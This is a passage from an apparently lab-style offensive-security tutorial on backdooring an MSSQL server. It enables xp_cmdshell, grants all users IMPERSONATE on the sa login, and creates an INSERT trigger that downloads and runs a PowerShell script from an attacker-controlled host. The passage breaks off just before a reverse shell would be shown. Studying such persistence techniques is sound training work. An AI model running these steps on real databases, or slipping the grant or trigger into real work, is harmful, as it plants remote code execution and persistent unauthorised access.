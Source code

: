 There are several ways to plant backdoors in MSSQL Server installations. For now, we will look at one of them that abuses triggers. Simply put, **triggers** in MSSQL allow us to bind actions to be performed when specific events occur in the database. Those events can range from a user logging in up to data being inserted, updated or deleted from a given table. For this task, we will create a trigger for any `INSERT` into the `HRDB` database.

Before creating the trigger, we must first reconfigure a few things on the database. First, we need to enable the `xp_cmdshell` stored procedure. `xp_cmdshell` is a stored procedure that is provided by default in any MSSQL installation and allows us to run commands directly in the system's console but comes disabled by default.

To enable it, let's open **Microsoft SQL Server Management Studio 18**, available from the start menu. When asked for authentication, just use **Windows Authentication** (the default value), and we will be logged on with the credentials of our current Windows User. By default, the local Administrator account will have access to all DBs.

Once logged in, click on the New Query button to open the query editor. Run the following SQL sentences to enable the "Advanced Options" in the MSSQL configuration, and proceed to enable `xp_cmdshell`:

```sql
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

After this, we must ensure that any website accessing the database can run `xp_cmdshell`. By default, only database users with the `sysadmin` role will be able to do so. Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the `sa` user, which is the default database administrator:

```sql
USE master
GRANT IMPERSONATE ON LOGIN::sa TO [PUBLIC];
```

After all of this, we finally configure a trigger. We start by changing to the `HRDB` database: `USE HRDB`. Our trigger will leverage `xp_cmdshell` to execute Powershell to download and run a `.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees` table of the `HRDB` database:

```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

Now that the backdoor is set up, let's create `evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell:
